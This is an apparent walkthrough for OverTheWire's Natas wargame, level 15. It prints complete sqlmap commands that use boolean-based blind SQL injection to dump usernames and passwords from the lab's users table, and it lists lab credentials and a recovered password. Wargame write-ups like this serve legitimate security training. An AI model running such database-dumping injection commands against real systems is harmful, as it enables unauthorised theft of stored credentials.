





**Natas (OTW)**

**Natas 15 Writeup:**

Natas level 14 —>15

Entering the username as natas 16 gives us an output of “This user exists.” therefore we can use this chunk of information in extracting data from the sql database.

Using an application named sqlmap we will be able to retrieve the data from the database thus allowing us to crack the passcode for the next challenge.

Here we have the 4 entries of the username and passwords extracted from the database using the

**Payload :** python sqlmap.py -u "http://natas15.natas.labs.overthewire.org/" --technique=B --string="This user exists." --auth-type=Basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16" -D natas15 -T users -C username,password --dump --level=5 risk=3

**Natas16 :** WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

python sqlmap.py -u "http://natas16.natas.labs.overthewire.org/" --technique=B --string="This user exists." --auth-type=Basic --auth-cred=natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh --data "username=natas17" -D natas16 -T users -C username,password --dump --level=5 risk=3
